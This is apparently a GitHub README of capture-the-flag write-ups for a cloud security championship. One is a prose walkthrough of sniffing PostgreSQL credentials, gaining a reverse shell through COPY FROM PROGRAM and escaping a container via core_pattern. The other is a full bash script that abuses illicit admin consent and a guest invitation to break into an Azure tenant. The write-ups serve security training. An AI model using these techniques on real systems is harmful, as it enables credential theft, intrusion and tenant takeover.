

# Introduction
- https://www.cloudsecuritychampionship.com/
- every month, 1 challenge released, starting from June 2025
- challenges will cover various topics in cloud security
- Until now (August 2025), I managed to solve 2 challenges.
- I will update this README.md file with writeups for each challenge as I solve them.
- Challenges list:
  - June 2025: [Challenge 1](https://www.cloudsecuritychampionship.com/challenge/1)
  - July 2025: [Challenge 2](https://www.cloudsecuritychampionship.com/challenge/2)

# CTF Writeup
## Challenge 1
### Description
#### Perimeter Leak
After weeks of exploits and privilege escalation you've gained access to what you hope is the final server that you can then use to extract out the secret flag from an S3 bucket.
It won't be easy though. The target uses an AWS data perimeter to restrict access to the bucket contents.
Good luck!

### Writeup
- too ez, solve yourself :)

## Challenge 2
### Description
#### Contain Me If You Can
You've found yourself in a containerized environment.
To get the flag, you must move laterally and escape your container. Can you do it?
The flag is placed at /flag on the host's file system.
Good luck!

#### Hints:
- Can you spot any interesting established network connections?
- This network connection is plain-text. Can you think of a way to take advantage of it?
- `COPY ... FROM PROGRAM` can be used to execute arbitrary code in PostgreSQL.
- The PostgreSQL administrator of this environment needed a really easy and convenient way to become root for maintenance purposes.
- The `core_pattern` file in procfs is often used to perform a container escape.

### Writeup
- This one is hard for me, about lateral movement and container escape.
- The hints are very helpful, show us the path to solve the challenge.
- Briefly step-by-step:
  1. Use `netstat` to find established connections, found a connection to a PostgreSQL database.
  2. Use `tcpdump` to capture the traffic, found that the connection is plain-text.
  3. Key point here is to capture the credentials from the traffic. The connection is established whenever the container starts, actually you can not use `tcpdump` faster than the connection established. So we need a trick here:
  4. Use `tcpkill` to kill the connection, while listening to the traffic with `tcpdump`. This way, the container will try to re-establish the connection and when it doing that, the credential will be exchanged between 2 host => we can capture the credentials.
  5. Use the captured credentials to connect to the PostgreSQL database.
  6. Use the `COPY ... FROM PROGRAM` command to execute arbitrary code, I used it to connect to my reverse shell.
  7. Follow the instructions in these articles to escape the container:
       - https://kubehound.io/reference/attacks/CE_UMH_CORE_PATTERN/ (most important)
       - https://pwning.systems/posts/escaping-containers-for-fun/
  8. Finally, I got the flag from the host's file system.

## Challenge 3
### Description
#### Breaking The Barriers
As an APT group targeting Azure, you've discovered a web app that creates admin users, but they are heavily restricted. To gain initial access, you've created a malicious OAuth app in your tenant and now seek to deploy it into the victim's tenant. Can you bypass the restrictions and capture the flag?

The shell environment has been preloaded with your malicious OAuth app credentials and the target web app endpoint as environment variables. Use 'env | grep AZURE' or 'echo $WEB_APP_ENDPOINT' to view them.

#### Hint
- Look into illicit admin consent as an initial access vector.
- To join the party, you'll need to dress your identity just right.
- Groups open doors. This one opens an app - if you know where to look.

#### Writeup
```bash
#!/usr/bin/env bash
set -euo pipefail

# Victim tenant ID (from domain azurectfchallengegame.com via https://www.whatismytenantid.com/)
VICTIM_TENANT="d26f353d-c564-48e7-b26f-aa48c6eecd58"

# Environment variables from challenge terminal
AZURE_CLIENT_ID="abc"
AZURE_CLIENT_SECRET="abc"
WEB_APP_ENDPOINT="https://example.com/"

# Use env vars as defaults if not set
CLIENT_ID="${AZURE_CLIENT_ID:-}"
CLIENT_SECRET="${AZURE_CLIENT_SECRET:-}"
WEB_APP="${WEB_APP_ENDPOINT:-}"

# Check required variables
if [[ -z "$CLIENT_ID" || -z "$CLIENT_SECRET" || -z "$WEB_APP" ]]; then
  echo "Missing required env vars. Make sure AZURE_CLIENT_ID, AZURE_CLIENT_SECRET, WEB_APP_ENDPOINT are set."
  exit 1
fi

echo "Victim tenant: $VICTIM_TENANT"
echo "Web app endpoint: $WEB_APP"
echo

# Step 1: Admin consent
echo "[1] (manual) Open this admin-consent URL in a browser and approve as restricted admin of victim tenant:"
echo "https://login.microsoftonline.com/$VICTIM_TENANT/adminconsent?client_id=$CLIENT_ID"
read -p "Press ENTER after admin consent granted (or Ctrl-C to abort)..."

# Step 2: Login as service principal
echo "[2] Logging in as service principal into victim tenant..."
az login --service-principal --username "$CLIENT_ID" --password "$CLIENT_SECRET" --tenant "$VICTIM_TENANT" --allow-no-subscriptions >/dev/null 2>&1

# Step 3: Get Graph access token
echo "[3] Retrieving Graph access token..."
ACCESS_TOKEN=$(az account get-access-token --resource https://graph.microsoft.com --query accessToken -o tsv)
if [[ -z "$ACCESS_TOKEN" ]]; then
  echo "Failed to get access token"
  exit 1
fi
echo "Token acquired."

# Step 4: List groups
echo "[4] Listing groups (top-level)..."
curl -s -H "Authorization: Bearer $ACCESS_TOKEN" "https://graph.microsoft.com/v1.0/groups"
echo

# Step 5: Invite guest
echo "[5] Invite a guest whose displayName starts with 'CTF' (you must control the email to redeem invitation)."
read -p "Enter a temporary email you control (e.g. ctf123@nullsto.edu.pl): " TEMPEMAIL
read -p "Confirm invite $TEMPEMAIL with displayName 'CTF'? (y/N): " CONF
if [[ "$CONF" != "y" && "$CONF" != "Y" ]]; then
  echo "Aborted invite."
  exit 0
fi

INV_JSON=$(mktemp)
trap 'rm -f "$INV_JSON"' EXIT
cat > "$INV_JSON" <<EOF
{
  "invitedUserEmailAddress": "$TEMPEMAIL",
  "inviteRedirectUrl": "$WEB_APP",
  "invitedUserDisplayName": "CTF",
  "sendInvitationMessage": true
}
EOF

INV_RESPONSE=$(curl -s -X POST "https://graph.microsoft.com/v1.0/invitations" \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  -d @"$INV_JSON")

echo "$INV_RESPONSE"
if [[ "$INV_RESPONSE" == *"error"* ]]; then
  echo "Invitation failed."
  exit 1
fi
echo "Invitation created. Redeem it from the target email to activate the guest account."

# Step 6: Redeem invitation
echo "[6] (manual) Redeem the invitation in your email."
read -p "Press ENTER after redeeming the invitation (or Ctrl-C to abort)..."

# Step 7: Logout and login as guest
echo "[7] Logging out from service principal session..."
az logout >/dev/null 2>&1

echo "[8] Logging in as guest into victim tenant..."
echo "To sign in, open https://microsoft.com/devicelogin in a browser and enter the code provided by the CLI."
az login --tenant "$VICTIM_TENANT" --use-device-code

# Step 9: Download flag
echo "[9] Downloading the flag..."
az storage blob download \
  --account-name azurechallengectfflag \
  --container-name grab-the-flag \
  --name ctf_flag.txt \
  --file "ctf_flag.txt" \
  --auth-mode login

if [[ $? -ne 0 ]]; then
  echo "Failed to download flag."
  exit 1
fi

# Step 10: View flag
echo "[10] Viewing the flag..."
cat ctf_flag.txt
```
